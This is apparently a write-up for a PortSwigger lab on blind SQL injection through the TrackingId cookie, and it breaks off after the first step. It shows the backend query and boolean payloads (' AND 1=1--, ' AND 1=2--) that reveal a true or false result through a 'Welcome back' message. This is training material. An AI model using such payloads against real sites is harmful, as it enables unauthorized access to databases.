 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2277a84-8741-4b90-b15e-d88ad9c9eda9)


## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f499d35-6e1f-418e-8a34-f8b18889ea14)

*This how the session looks like where ```TrackingId and COOKIE-VALUE``` are shown and  Welcome back message is also displyed.*


TrackingID parameter is vulnerable. So it is vulnerablecan to blind SQL injection on trackingID parameter.

```If the Condition is true it will display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fe425f15-d397-46a0-a068-7bcbdc6b4de8)

```If the Condition is not true it will not  display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8490db5d-55ae-4aaa-8924-0aee2f53704e)
